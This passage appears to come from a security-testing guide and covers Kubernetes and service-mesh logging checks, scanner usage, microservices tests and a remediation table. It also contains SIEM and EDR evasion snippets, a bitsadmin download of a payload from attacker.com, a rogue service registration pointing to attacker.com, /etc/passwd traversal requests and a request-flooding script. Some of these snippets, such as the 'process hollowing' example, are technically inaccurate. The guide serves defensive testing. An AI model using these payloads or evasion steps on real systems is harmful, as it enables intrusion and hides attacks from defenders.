kind: Policy
rules:
- level: None
  users: ["system:kube-proxy"]
  verbs: ["watch"]
  resources:
  - group: ""
    resources: ["endpoints", "services", "services/status"]

# Check for sensitive operations not being logged
kubectl create secret generic test-secret --from-literal=key=value
kubectl get secrets --all-namespaces
kubectl delete secret test-secret
```

#### **Service Mesh Observability**:
```bash
# Istio observability testing
kubectl get telemetry --all-namespaces
kubectl get wasmplugin --all-namespaces

# Check for telemetry bypass
curl -H "X-Disable-Telemetry: true" http://service.mesh.local/
curl -H "traceparent: 00-00000000000000000000000000000000-0000000000000000-00" http://service.mesh.local/
```

### **🆕 SIEM/SOAR Bypass Techniques**:
```python
# Log injection to bypass SIEM rules
import logging

# Craft logs to avoid detection patterns
legitimate_log = "User admin logged in from 192.168.1.100"
malicious_log = "User admin logged in from 192.168.1.100\x00MALICIOUS_ACTIVITY_HIDDEN_HERE"

# Time-based evasion
import time
import random

for i in range(1000):
    # Spread malicious activity over time to avoid rate-based detection
    time.sleep(random.randint(300, 3600))  # Random delay 5-60 minutes
    perform_malicious_activity()

# Unicode evasion in logs
malicious_user = "ad\u006din"  # "admin" with unicode
log_entry = f"Failed login for user {malicious_user}"
```

### **🆕 Modern Monitoring Evasion**:
```bash
# Process hollowing to evade monitoring
#!/bin/bash
# Start legitimate process
/usr/bin/legitimate_process &
PID=$!

# Replace memory contents with malicious code
echo "Malicious payload" > /proc/$PID/mem

# EDR/XDR evasion techniques
# Living off the land binaries (LOLBins)
powershell.exe -EncodedCommand <base64_payload>
certutil.exe -decode malware.txt malware.exe
bitsadmin.exe /transfer job http://attacker.com/payload.exe payload.exe

# Memory-only attacks
python -c "exec(__import__('base64').b64decode('payload').decode())"
```

---

## **🆕 Modern Testing Tools & Frameworks (2025)**

### **Next-Generation Security Testing Tools**

#### **AI-Powered Security Testing**:
```bash
# Nuclei with modern templates
nuclei -u https://target.com -t nuclei-templates/ -severity critical,high
nuclei -l targets.txt -w workflows/

# Semgrep for code analysis
semgrep --config=auto src/
semgrep --config=security-audit --severity=ERROR .

# CodeQL for semantic analysis
codeql database create db --language=javascript
codeql database analyze db codeql/javascript-queries:codeql-suites/javascript-security-and-quality.qls
```

#### **Container Security Scanners**:
```bash
# Trivy comprehensive scanning
trivy fs .                    # Filesystem scanning
trivy image alpine:latest     # Container image scanning
trivy k8s cluster            # Kubernetes cluster scanning
trivy repo github.com/user/repo  # Repository scanning

# Grype vulnerability scanning
grype alpine:latest
grype dir:.
grype sbom:./sbom.json

# Cosign for container signing verification
cosign verify --key cosign.pub alpine:latest
cosign triangulate alpine:latest
```

#### **Cloud Security Testing**:
```bash
# ScoutSuite for cloud security
scout aws
scout azure --report-dir reports/
scout gcp --services compute,storage

# Prowler for AWS security
prowler aws -c check21,check22,check23
prowler aws --severity critical
prowler azure

# Checkov for IaC security
checkov -d . --framework terraform
checkov -f main.tf --check CKV_AWS_20
checkov --framework kubernetes -d k8s/
```

#### **API Security Testing**:
```bash
# Astra for REST API security
astra --url http://api.example.com/v1 --headers "Authorization: Bearer token"

# GraphQL security testing
graphql-cop -t http://api.example.com/graphql
graphw00f -t http://api.example.com/graphql

# Postman/Newman for API testing
newman run api-security-tests.json -e production.json --reporters cli,json
```

#### **Modern Web Application Scanners**:
```bash
# Caido for modern web testing
# GUI-based tool with modern authentication support

# feroxbuster for content discovery
feroxbuster -u http://target.com -w wordlist.txt -x php,html,js -s 200,301,302

# httpx for HTTP probing
httpx -l targets.txt -sc -title -tech-detect -follow-redirects

# subfinder for subdomain enumeration
subfinder -d target.com -all -recursive -o subdomains.txt
```

---

## **🆕 Microservices Security Testing Checklist**

### **Service Discovery & Registry Security**
```bash
# Test service registry exposure
curl http://consul.service.consul:8500/v1/catalog/services
curl http://eureka.local:8761/eureka/apps
curl http://etcd.local:2379/v2/keys/?recursive=true

# Test for unauthorized service registration
curl -X PUT http://consul:8500/v1/agent/service/register -d '{
  "ID": "malicious-service",
  "Name": "admin-api",
  "Address": "attacker.com",
  "Port": 8080
}'
```

### **Configuration Management Security**
```bash
# Test for exposed configuration
curl http://config.local:8888/application/default
curl http://config.local:8888/admin/configprops
curl http://config.local:8888/admin/env

# Spring Cloud Config security testing
curl "http://config.local:8888/../../etc/passwd"
curl "http://config.local:8888/app/default/master/..%2f..%2fetc%2fpasswd"
```

### **Circuit Breaker Security**
```python
# Test circuit breaker bypass
import concurrent.futures
import requests

def attack_request():
    try:
        return requests.get("http://service/admin", timeout=1)
    except:
        return None

# Overwhelm circuit breaker
with concurrent.futures.ThreadPoolExecutor(max_workers=100) as executor:
    futures = [executor.submit(attack_request) for _ in range(1000)]
    results = [f.result() for f in concurrent.futures.as_completed(futures)]
```

---

## **Summary: Enhanced Technical Remediation Strategy**

| **Modern Attack Vector** | **Detection Method** | **Technical Remediation** |
|---------------------------|---------------------|----------------------------|
| **SSTI** | Template math expressions `{{7*7}}` | Sandboxed templates, input validation, CSP |
| **GraphQL Injection** | Introspection queries, deep nesting | Query complexity analysis, depth limiting, field-level auth |
| **Container Escape** | Privileged containers, capability checks | Non-root containers, restricted capabilities, security policies |
| **Service Mesh Bypass** | mTLS validation, policy enumeration | Strict mTLS, network policies, zero-trust architecture |
| **Supply Chain Attacks** | Dependency confusion, malicious packages | SCA tools, package signing, private registries |
| **JWT Algorithm Confusion** | Algorithm manipulation, key confusion | Strict algorithm validation, proper key management |
| **Cloud Storage Exposure** | Public bucket enumeration | Bucket policies, encryption, access logging |
| **CSP Bypass** | JSONP abuse, trusted domain exploitation | Strict CSP, nonce-based policies, regular audits |
| **Prototype Pollution** | `__proto__` injection | Object freezing, input sanitization, secure parsers |
| **API Gateway Bypass** | Host header injection, path traversal | Request validation, proper routing, authentication |

### **Modern Security Testing Workflow**:



##
##
